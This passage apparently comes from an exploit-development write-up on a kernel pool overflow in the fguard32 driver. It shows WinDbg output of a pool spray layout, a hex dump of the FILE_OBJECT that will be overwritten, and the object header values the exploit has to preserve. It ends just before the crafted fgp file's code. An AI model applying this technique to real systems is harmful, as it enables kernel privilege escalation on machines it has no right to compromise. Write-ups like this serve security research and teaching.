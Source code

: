 Now let's move to the content of the fgp file. The first object we build is the payload, the code that will be called by nt!NtReadFile. If spraying was successfull we expect to get the following memory layout just before the overflow (which happens at fguard32+B4C8 for 32bit driver):
```text
kd> !pool @edi
Pool page 864e9d44 region is Nonpaged pool
 864e9000 size:   b8 previous size:    0  (Allocated)  File (Protected)
 864e90b8 size:  1a0 previous size:   b8  (Free)       ....
 864e9258 size:   b8 previous size:  1a0  (Allocated)  File (Protected)
 864e9310 size:   b8 previous size:   b8  (Allocated)  File (Protected)
 864e93c8 size:   b8 previous size:   b8  (Allocated)  File (Protected)
 864e9480 size:   b8 previous size:   b8  (Allocated)  File (Protected)
 864e9538 size:   b8 previous size:   b8  (Allocated)  File (Protected)
 864e95f0 size:   b8 previous size:   b8  (Allocated)  File (Protected)
 864e96a8 size:   b8 previous size:   b8  (Allocated)  File (Protected)
 864e9760 size:   b8 previous size:   b8  (Allocated)  File (Protected)
 864e9818 size:   b8 previous size:   b8  (Allocated)  File (Protected)
 864e98d0 size:   b8 previous size:   b8  (Allocated)  File (Protected)
 864e9988 size:   b8 previous size:   b8  (Allocated)  File (Protected)
 864e9a40 size:   b8 previous size:   b8  (Allocated)  File (Protected)
 864e9af8 size:   30 previous size:   b8  (Free)       File
*864e9b28 size:  2b0 previous size:   30  (Allocated) *None              ;PROTECTED_DIR_DESCRIPTOR buffer
		Pooltag None : call to ExAllocatePool
 864e9dd8 size:   b8 previous size:  2b0  (Allocated)  File (Protected)  ;This FILE_OBJECT will be overwitten
 864e9e90 size:   b8 previous size:   b8  (Allocated)  File (Protected)
 864e9f48 size:   b8 previous size:   b8  (Allocated)  File (Protected)
```
The content of the file object before the overflow:
```text
kd> db 865228d0 LB8
865228d0  56 00 17 04 46 69 6c e5-00 04 00 00 f8 00 00 00  V...Fil.........
865228e0  00 00 00 00 00 00 00 00-48 58 96 85 01 00 00 00  ........HX......
865228f0  01 00 00 00 01 00 00 00-00 00 00 00 1c 00 0c 40  ...............@
86522900  40 c0 8c 85 00 00 00 00-05 00 80 00 18 12 c0 84  @...............
86522910  48 a9 bf 84 f8 39 48 a2-90 5b 53 a2 a0 ed 7e 85  H....9H..[S...~.
86522920  00 00 00 00 00 00 00 00-b8 68 d8 85 00 00 01 00  .........h......
86522930  00 01 01 01 42 00 04 00-14 00 14 00 08 ce 7a 8f  ....B.........z.
86522940  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
86522950  00 00 00 00 01 00 04 00-00 00 00 00 5c 29 52 86  ............\)R.
86522960  5c 29 52 86 00 00 04 00-01 00 00 00 6c 29 52 86  \)R.........l)R.
86522970  6c 29 52 86 00 00 00 00-00 00 00 00 7c 29 52 86  l)R.........|)R.
86522980  7c 29 52 86 00 00 00 00                          |)R.....
```
```text
kd> dt _object_header 865228f0
nt!_OBJECT_HEADER
   +0x000 PointerCount     : 0n1
   +0x004 HandleCount      : 0n1
   +0x004 NextToFree       : 0x00000001 Void
   +0x008 Lock             : _EX_PUSH_LOCK
   +0x00c TypeIndex        : 0x1c ''
   +0x00d TraceFlags       : 0 ''
   +0x00e InfoMask         : 0xc ''
   +0x00f Flags            : 0x40 '@'
   +0x010 ObjectCreateInfo : 0x858cc040 _OBJECT_CREATE_INFORMATION
   +0x010 QuotaBlockCharged : 0x858cc040 Void
   +0x014 SecurityDescriptor : (null) 
   +0x018 Body             : _QUAD
```
We need to preserve the structre and some values of the pool header and the object header of the file object at 0x864e9dd8. Also, as it was said before, we need to mark the object with special values in the object header. The following fgp file does the job:
{% highlight C %}